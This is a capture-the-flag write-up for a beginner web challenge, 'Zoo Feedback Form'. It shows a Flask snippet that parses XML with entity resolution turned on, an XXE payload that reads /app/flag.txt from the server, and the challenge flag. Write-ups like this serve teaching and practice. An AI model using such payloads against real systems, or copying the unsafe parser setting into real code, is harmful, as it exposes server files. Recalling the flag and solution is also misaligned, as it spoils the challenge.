 # Zoo Feedback Form

Category: Web (Beginner)

Points: 100

Solves: 693

>The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!



### Solution

Going to the website, we see a pretty simple flask app that reflects back our input:

![Input Hi](/images/ZooFeedbackFormTest.png)

Looking into the code provided to us, we can see it is using XML to display our response:

```py
xml_data = request.data
try:
    parser = etree.XMLParser(resolve_entities=True)
    root = etree.fromstring(xml_data, parser=parser)
```

Checking out network tab, we can see that the website wraps our input with XML and posts it to the server:

![Post Request](/images/ZooFeedbackFormPost.png)

We can now modify this request with our own XXE payload and get the flag:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:/app/flag.txt"> ]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

![XXE](/images/ZooFeedbackFormXXE.png)


### Flag

```DUCTF{emU_say$_he!!0_h0!@_ci@0}```
